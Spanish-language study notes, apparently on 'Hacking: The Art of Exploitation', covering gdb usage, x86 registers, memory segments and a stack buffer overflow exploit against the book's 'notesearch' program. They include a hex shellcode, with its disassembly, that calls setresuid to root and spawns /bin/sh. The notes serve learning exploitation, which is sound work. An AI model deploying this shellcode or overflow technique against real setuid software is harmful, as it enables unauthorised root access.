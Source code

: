 * 0x200 Programming
  + objdump -D -M intel a.out :: disassembly (-D) con formato Intel (-M intel)
  + gdb -q ./a.out :: debugger para ver el estado de la memoria y los registros al momento de ejecucion. No imprime
		      mensajes introductorios ni la licencia (-q o -quiet)
    + help <command> :: ayuda sobre el comando
    + break main :: pone un breakpoint en el label "main"
    + info registers :: imprime informacion sobre los registros en el momento actual de ejecucion
    + info register eip (short i r eip) :: informacion particularmente sobre el EIP
    + set disassembly-flavor intel :: cambia el formato de AT&T a Intel
    + list :: si fue compilado con *-g*, muestra el codigo fuente del programa
	      puede tomar argumentos como el #linea, nombre de la funcion, etc.
    + disassemble main :: desensambla la funcion deseada y la muestra
    + x/FORMAT ADRESS :: para *examinar* la memoria. FORMAT puede estar formado por:
      + n :: un numero para indicar la cantidad de "units" a examinar
      + t(binario) | o(octal) | u(decimal sin signo) | x(hexa) :: en que medida mostrar el "unit"
      + b(byte) | h(half word) | w(word default) | g(giant) :: tamanio del "unit"
      Por ejemplo, puede quedar asi: x, 2x, 4xb, etc.
      FORMAT tambien puede tomar valores como *i(instruccion), a(address), c(char), s(string)*.
      ADRESS es una expresion para la direccion de memoria a examinar. $eip o 0x8048384 por ejemplo.
    + print $ebp - 4 :: se usa para matematica simple, y guarda el resultado en una variable, para usarlo luego.
    + run :: corre el programa, parando en los breakpoints (si es que los hay)
    + continue (short cont) :: continua la ejecucion
    + nexti :: ejecutar la actual instruccion.
    + bt [full] o where :: backtrace the call stack. Con 'full' muestra las variables locales del stack frame
    + quit
  + EAX :: accumulator register
  + ECX :: counter register
  + EDX :: data register
  + EBX :: base register
  + ESP :: stack pointer
  + EBP :: base pointer
  + ESI EDI :: source and destination index: used to point to the source and dest when data needs to be read from or written to
  + EIP :: instruction pointer register
  + EFLAGS :: bit flags for comparisons and memory segmentation

  + bc -ql :: basic calculator

  + C variable global :: se declara igual a las demas, pero fuera de cualquier funcion

  + C variable estatica :: es local a la funcion en la que se declara, pero se comparte entre todos los 
       llamados a la misma
  
** 0x270 Memory Segmentation
   La memoria de un programa (compilado) esta dividida en 5 segmentos: text, data, bss, heap & stack
   + text segment :: tambien llamado /code segment/, es donde se guarda el codigo.
		     Tiene un tamanio fijo, ya que nunca nada cambia aqui, y /no/ es writeable.
		     El ser no-writeable permite seguridad y que se utilize para cada instancia de
		     el programa.
   + data & bss segments :: almacena las variables globales y estaticas. *data* tiene las variables
	inicializadas, mientras que *bss* tiene las /no/ inicializadas. Tiene tamanio fijo y es writeable.
   + heap segment :: segmento de memoria que el programador puede controlar directamente. /No/ tiene tamanio
		     fijo, ya que el programador puede almacenar y liberar bloques de memoria. El crecimiento
		     del heap es /graficamente/ hacia abajo, hacia posiciones de memoria mas grandes.
   + stack segment :: segmento para guardar las variables locales y el contexto de las funciones. Ya que
		      el contexto y el EIP deben cambiar cuando se llama a una funcion, se utiliza el stack
		      para recordar (este conjunto se llama *stack frame*):
     - las variables pasadas como argumentos
     - las variables locales de la funcion
     - SFP :: el *saved frame pointer* se usa para reestablecer el *EBP* a su anterior estado
     - return address :: puntero para poner el *EIP* en la posicion correspondiente al retornar
     El *EBP* (tambien llamado frame pointer) es un puntero usado para referenciar las variables locales 
     dentro del stack frame actual
     El stack no tiene tamanio fijo, y crece /graficamente/ hacia arriba, hacia las
     posiciones mas bajas de la memoria.
		      
   Al hacer un llamado a una funcion, el stack frame se compone con lo siguiente: 
   1) primero se pushean los argumentos a la funcion
   2) luego (en el call) se pushea la direccion de retorno
   3) se pushea el EBP, con lo que se lo almacena para luego recuperarlo cuando se debe retornar a ese contexto
   4) se apunta el EBP al actual SP, para tomar la pos. de las var locales en relacion a este punto
   5) se crea el espacio para almacenar las variables locales de la funcion

      
   		
** 0x280 Building on Basics
   Hay dos maneras principales para acceder a archivos desde C:
   + File Descriptors :: conjunto de funciones de *bajo nivel* de I/O
   + Filestreams :: buffered I/O construida sobre las otras funciones de bajo nivel
* 0x300 Exploitation
  La idea en [[file:~/workspace/hacking-taoe/0x300_Exploitation/exploit_notesearch.c::#include%20<stdio.h][exploit_notesearch.c]] es crear un buffer que tenga una serie de NOP's, las instrucciones 
  (shellcode) que queremos que se ejecuten, y un bloque de "return adresses" (RA).
  Ese buffer se appendea a un string del tipo "./notesearch ..." y se lo ejecuta con la funcion *system*.

  Una vez ejecutado el programa ./notesearch (vulnerable a buffer overflow en donde recibe el parametro a 
  buscar entre las notas del usuario), el overflow hace que se sobreescriba el stack (donde estan las
  variables locales) con el comando armado en *exploit_notesearch*. La idea es, en primer lugar, lograr 
  sobreescribir el return address con la deseada por nosotros. Como el lugar exacto del return address 
  dentro del stack frame puede variar por algunos bytes, se pone un bloque mediano con ese RA. 

  Como calculamos que RA ponerle? Considerando que las variables locales de *notesearch* estan por encima
  de las del main() de *exploit_notesearch* en el stack (posiciones de memoria mas bajas), podemos utilizar 
  la posicion de una variable de este ultimo y restarle X cantidad de bytes por la informacion anterior.
  Aqui se debe jugar con ese valor, pero teniendo en cuenta que queremos saltar a alguna parte de ese bloque
  de NOP's (para que la ejecucion termine cayendo al codigo inyectado) y que el stack frame de *notesearch*
  esta en posiciones mas bajas del stack.
  
** Para probar el shellcode
   Escribir el binario con un editor hexa (mc o Emacs con hexl-mode sirven). Ahi vamos escribiendo los
   valores en hexadecimal, que luego pueden ser pasados por un programa como *objdump* para ver que
   instrucciones representan en assembler: ~objdump -D <file> -m i386 -b binary~
  
   La secuencia:
   31c0 31db 31c9 99b0 a4cd 806a 0b58 5168
   2f2f 7368 682f 6269 6e89 e351 89e2 5389 
   e1cd 80                              

   representa el siguiente codigo en asm:
#+NAME: shellcode
#+BEGIN_SRC asm
00000000 <.data>:
   0:   31 c0                   xor    %eax,%eax
   2:   31 db                   xor    %ebx,%ebx
   4:   31 c9                   xor    %ecx,%ecx
   6:   99                      cltd   
   7:   b0 a4                   mov    $0xa4,%al
   9:   cd 80                   int    $0x80
   b:   6a 0b                   push   $0xb
   d:   58                      pop    %eax
   e:   51                      push   %ecx
   f:   68 2f 2f 73 68          push   $0x68732f2f
  14:   68 2f 62 69 6e          push   $0x6e69622f
  19:   89 e3                   mov    %esp,%ebx
  1b:   51                      push   %ecx
  1c:   89 e2                   mov    %esp,%edx
  1e:   53                      push   %ebx
  1f:   89 e1                   mov    %esp,%ecx
  21:   cd 80                   int    $0x80
#+END_SRC
   
   La instruccion ~int $0x80 (syscall)~ es una interrupcion especial al kernel. Expresa que el programa le esta
   pidiendo una accion especial al kernel. El interrupt 0x80 toma de EAX el llamado a realizar. En este caso,
   resulta ~eax = 0xa4 (164)~, que, viendo en [[/usr/include/i386-linux-gnu/asm/unistd_32.h][unistd_32.h]], significa que se va a ejecutar la funcion 
   *setresuid* (existe una funcion wrapper en C, de ese nombre).

   La proxima interrupcion ~int $0x80~ se hace con el valor 0xb en EAX, por lo que se ejecuta la funcion
   *execve* (ejecutar programa).
